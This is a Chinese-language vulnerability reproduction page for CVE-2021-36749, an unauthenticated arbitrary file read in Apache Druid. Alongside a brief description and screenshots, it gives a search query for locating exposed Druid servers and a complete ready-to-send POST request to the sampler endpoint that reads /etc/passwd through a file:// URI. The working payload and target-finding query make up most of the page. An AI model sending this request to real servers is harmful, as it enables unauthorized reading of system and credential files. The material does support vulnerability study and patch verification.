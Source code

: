 # Apache Druid LoadData 任意文件读取漏洞 CVE-2021-36749

## 漏洞描述

由于用户指定 HTTP InputSource 没有做出限制，可以通过将文件 URL 传递给 HTTP InputSource 来绕过应用程序级别的限制。攻击者可利用该漏洞在未授权情况下，构造恶意请求执行文件读取，最终造成服务器敏感性信息泄露。

## 漏洞影响

```
Apache Druid
```

## 网络测绘

```
title="Apache Druid"
```

## 漏洞复现

主页面

![](images/202205251552893.png)

复现过程

![](images/202205251552182.png)

![](images/202205251552177.png)

请求包为

```
POST /druid/indexer/v1/sampler?for=connect
Accept: application/json, text/plain, */*

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["file:///etc/passwd"]},"inputFormat":{"type":"regex","pattern":"(.*)","columns":["raw"]}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{}},"tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```

![](images/202205251552931.png)
